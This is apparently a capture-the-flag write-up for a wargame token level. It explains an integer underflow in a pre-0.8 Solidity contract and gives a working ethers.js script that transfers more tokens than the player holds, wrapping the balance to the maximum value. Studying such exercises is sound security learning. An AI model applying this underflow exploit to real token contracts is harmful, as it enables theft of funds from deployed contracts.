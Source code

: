### Goals

We need to acquire huge amount of tokens

### Exploit

First things that catched my eye is solidity version, prior to 0.8 we need to be careful with overflow/underflows. That is what we will exploit here.

Since we have 20 tokens we will transfer 21 to anyone, thus overflowing our balance to `type(uint256).max`. The require check will evaluate to true since the balance would overflow and we would have enough tokens for the transfer.

### Code

As in CoinFlip we can use some JS code:

```code
import { ethers } from "ethers";

let provider = new ethers.JsonRpcProvider(
  "https://ethereum-sepolia.publicnode.com"
);

const signer = new ethers.Wallet(
  "YOUR_PRV_KET",
  provider
);

const token = new ethers.Contract(
  "TOKEN_ADDRESS",
  ["function transfer(address, uint256) external"],
  signer
);
let tx = await token.transfer(token.target, 21, { gasLimit: 100_000 });
await tx.wait();
console.log(`tx: ${tx.hash}`);
```

Done!

